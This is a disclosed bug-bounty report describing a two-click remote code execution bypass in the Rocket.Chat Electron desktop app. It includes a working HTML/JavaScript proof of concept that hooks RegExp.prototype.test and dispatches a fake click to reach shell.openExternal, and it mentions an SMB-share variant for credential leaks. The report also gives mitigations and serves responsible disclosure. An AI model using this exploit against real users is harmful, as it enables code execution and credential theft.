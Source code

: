 # Desktop app RCE (#276031 bypass)

## Report Details
- **Report ID**: 843171
- **URL**: https://hackerone.com/reports/843171
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-04-08T11:45:02.662Z
- **Disclosed**: 2020-11-05T07:21:27.861Z

## Reporter
- **Username**: ivarsvids
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rocket_chat

## Vulnerability Information
**Summary:** #276031 fix bypass, two click remote code execution.

**Description:** The security issue is in links preload file https://github.com/RocketChat/Rocket.Chat.Electron/blob/master/src/preload/links.js file.
By rewriting  `RegExp.prototype.test` method it is possible to prepare proper answers to get to the `shell.openExternal` method. To trigger  events attached by `addEventListener` you can use `dispatchEvent` method.

Note: for demo I pointed to `calc.exe`, it also cloud be pointed, to SMB share (example. `\\server\share\executable.exe`), which can lead to windows credential leak and attacker also can execute arbitrary code on victims machine.

i believe this issue is cross-platform, an can be exploited in Linux, MacOS with minor JavaScript modifications.

## Releases Affected:

  * Rocket.Chat.Electron 2.17.9 

## Steps To Reproduce (from initial installation to vulnerability):

  1. Create web page with following `index.html`
```
<html>
	<head>
	</head>
	<body style="background-color: white;" >
		<h1>Initializing surprise in 3, 2, 1</h1>
		<script>
			setTimeout(() => {
				// create link
				let a = document.createElement('A');
				a.setAttribute('href', 'c:\\windows\\system32\\calc.exe');

				// hooks regexp.test
				RegExp.prototype._test = RegExp.prototype._test || RegExp.prototype.test;
				RegExp.prototype.test = function(...args){
					return this.source === '^([a-z]+:)?\\/\\/' || this._test(...args);
				}
				
				// add missing method
				document.closest = () => a;

				// triger event
				document.dispatchEvent(new Event('click'));

				//cleanup
				RegExp.prototype.test = RegExp.prototype._test;
				delete RegExp.prototype._test;
			}, 100);
		</script>
	</body>
</html>
```
  2. create `api/info` which contains JSON, can be empty JSON.
  3. Add new server

## Supporting Material/References:

{F779066}

## Suggested mitigation

I understand that deep-links and `Add new server` are a features and not bugs
* The simplest fix would be to check `isTrusted` attribute for events, but I'm 100% certain that it can be bypassed.
* Enable context isolation (https://github.com/electron/electron/blob/master/docs/tutorial/security.md#3-enable-context-isolation-for-remote-content)

## Impact

An attacker can trick victim to click on deep-link or add self hosted server to desktop application, which leads to remote code execution. I understand that deep-links and/or self hosted servers are not a bug, but it can be used in attack vector.

## Attachments
- rocket_rce.gif
